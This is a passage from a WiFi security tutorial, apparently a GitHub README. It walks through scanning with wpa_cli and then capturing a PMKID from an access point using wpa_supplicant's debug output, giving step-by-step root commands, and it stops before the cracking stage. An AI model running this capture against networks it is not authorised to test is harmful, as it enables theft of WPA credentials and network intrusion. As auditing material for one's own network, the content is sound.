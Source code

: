 #### Scanning
We do it with `wpa_cli`, the interactive command interpreter included in wpa_supplicant.
* First run `sud -i` to obtain administrator privileges in the console (we will need to be "root" all the time)
* Then we detect the available WiFi interfaces to know their names by running `iw dev`.
    * In my case I have a single interface called `wlp2s0`
        ![available interfaces](iw_dev.jpg)
        and I also note my mac address that I'll need later.
* We wrote a very basic configuration file to be able to execute `wpa_cli`. We will save it in `/tmp` (this will be erased) by calling it `wpacli.conf`
    `echo "ctrl_interface=/var/run/wpa_supplicant" >> /tmp/wpacli.conf`
* Before we start pulling `wpa_cli` we turn off NetworkManger and make sure the interface is ready to scan
    `systemctl stop NetworkManager; rfkill unblock wifi; ip l s wlp2s0 up`
* We execute `wpa_supplicant` indicating the configuration file (`/tmp/wpacli.conf`) and the WiFi Interface (`wlp2s0`)
    `wpa_supplicant -i wlp2s0 -c /tmp/wpacli.conf -B`
* We so the scan with
    `wpa_cli scan`
* And we get the result with
    `wpa_cli scan_results`
    We collect two data: the eSSID (name of our network) and the bSSID (the mac address of our network):
    ![wpa_cli scan results](wpa_cli-scan-results.jpg)
* We kill the `wpa_supplicant` process that we have sent in background (option `-B`) to prevent conflicts and we will be ready to pick up the PMKID and the hashes
    `killall wpa_supplicant`
#### Capture PMKID and hashes
We continue in our console with administrator privileges.
* Let's first write a configuration file with a "junk" key first to connect to our Access Point. We use the `wpa_passphrase` command (also part of `wpa_supplicant`)
    `wpa_passphrase MIWIFI_XXXX 12345678 >> /tmp/pmkid.conf`
    The eSSID that we can copy and paste from the scan should be put before the key. The file will be `/tmp/pmkid.conf`
* Now we can make the attack with: `wpa_supplicant -c /tmp/pmkid.conf -i wlp2s0 -dd` or `wpa_supplicant -c /tmp/pmkid.conf -i wlp2s0 -dd > /tmp/wpa_results` or `wpa_supplicant -c /tmp/pmkid.conf -i wlp2s0 -dd | grep "PMKID from Authenticator" -m 1`
    Everything goes very fast, leave it 4-5 seconds and for the process with `Ctrl+C`. The "trick" is to use the "debug" mode with double output level (argument `-dd`)
* Before picking up the PMKID and the chains that were used to generate them, we see that they are: